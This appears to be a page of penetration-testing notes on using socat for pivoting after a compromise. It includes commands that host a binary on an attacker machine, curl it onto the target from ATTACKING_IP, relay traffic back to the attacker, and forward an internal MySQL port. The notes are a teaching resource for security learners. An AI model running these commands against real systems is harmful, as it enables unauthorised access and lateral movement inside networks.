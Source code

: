 <figure><img src="../../../.gitbook/assets/image (1) (2).png" alt=""><figcaption></figcaption></figure>

Before using socat, it will usually be necessary to download a binary for it, then upload it to the box.

On Kali (inside the directory containing your Socat binary):

`sudo python3 -m http.server 80`

Then, on the target:\
`curl ATTACKING_IP/socat -o /tmp/socat-USERNAME && chmod +x /tmp/socat-USERNAME`

***

after setting up a listener on your local machine, on the compromised server, use the following command to start the relay:\
`./socat tcp-l:8000 tcp:ATTACKING_IP:443 &`

if the compromised server is 172.16.0.5 and the target is port 3306 of 172.16.0.10, we could use the following command (on the compromised server) to create a port forward:\
`./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &`

So, this command sets up a TCP port forwarding from the local port 33060 to the remote address 172.16.0.10 on port 3306.

./socat`: Executes the` socat`command.`&#x20;

`2.`tcp-l:33060,fork,reuseaddr\`: Creates a TCP listener on localhost (127.0.0.1) at port 33060 with the following options:

* `fork`: Creates a new process for each incoming connection.
* `reuseaddr`: Allows the socket to be reused immediately after it is closed.
